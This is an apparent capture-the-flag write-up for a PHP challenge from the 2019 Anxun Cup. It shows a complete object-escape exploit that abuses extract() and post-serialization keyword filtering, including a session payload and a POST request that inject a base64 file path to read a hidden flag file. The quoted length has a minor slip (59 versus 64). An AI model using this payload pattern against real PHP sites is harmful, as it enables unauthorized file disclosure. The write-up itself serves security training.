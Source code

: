 ### References

- [安洵杯2019 官方Writeup, 2019-12-12](https://xz.aliyun.com/t/6911#toc-3)

**Tag: PHP unserialize, Object escape**

1.Click the source_code, we can see the `extract` function at a glance. Contextually, may be we can cover the `$_SESSION` variable.

There’s a hint at the bottom of the code:

```php
else if($function == 'phpinfo') {
    eval('phpinfo();'); //maybe you can find something in here!
}
```

In phpinfo, we can find the `auto_append_file` is set to `d0g3_f1ag.php`. But if we access the file directly, there is nothing, which means we need to read this file.

2.Notice that there is a file operation function:

```php
else if($function == 'show_image') {
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```

The variables `$userinfo` is derived from `$_SESSION`:

```php
$_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
      👇
$serialize_info = filter(serialize($_SESSION));
      👇
$userinfo = unserialize($serialize_info);
```

Because the `sha1` function, we cannot read any files.

3.Let's turn attention to another function, `serialize`. Same problem as before(2016 0ctf), it's sanitized **after** being serialized.

```php
function filter($img) {
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}
```

The `filter` function replacing some string with empty, it will destroy the serialized data structure.

normal serialize data are as follows:

```php
<?php
$_SESSION["user"] = 'guest';
$_SESSION['function'] = 'phpinfo';
$_SESSION['img'] = base64_encode('guest_img.png');

echo serialize($_SESSION);

// output:
// a:3:{s:4:"user";s:5:"guest";s:8:"function";s:7:"phpinfo";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}
```

4.if we want to inject a variable, can construct the follows POC:

```php
$_SESSION['function'] = 'a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:4:"test";s:4:"test";}';

// output:
// a:3:{s:4:"user";s:5:"guest";s:8:"function";s:64:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:4:"test";s:4:"test";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}
```

Then use the filter function to replace the string with empty, we need include `";s:8:"function";s:59:"a` in quotes.

```python
>>> len('";s:8:"function";s:64:"a')
24
```

This means we need 24 characters to be replaced with empty, It could be:

```tex
flagflagflagflagflagflag
// or
phpphpphpphpphpphpphpphp
// ...
```

5.The final POC is:

```php
<?php
$_SESSION["user"] = 'phpphpphpphpphpphpphpphp';
$_SESSION['function'] = 'a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:4:"test";s:4:"test";}';
$_SESSION['img'] = base64_encode('guest_img.png');
echo serialize($_SESSION);

// output:
// a:3:{s:4:"user";s:24:"phpphpphpphpphpphpphpphp";s:8:"function";s:64:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:4:"test";s:4:"test";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}
```

After being sanitized, the serialized data looks like:

```tex
a:3:{s:4:"user";s:24:"";s:8:"function";s:64:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:4:"test";s:4:"test";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}
```

So we successfully injected an array member, and since the beginning is `a:3`, we add the `s:4:"test";s:4:"test";`. PHP also unserialize members that do not exist in the class.

Finally, combined with variable coverage, exploit it:

```tex
POST /index.php?f=show_image HTTP/1.1
...

_SESSION[user]=phpphpphpphpphpphpphpphp&_SESSION[function]=a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:4:"test";s:4:"test";}
```

we can get:

```php
<?php
$flag = 'flag in /d0g3_fllllllag';
?>
```

then, just read the flag:

![](https://i.imgur.com/2Nq2dOO.png)

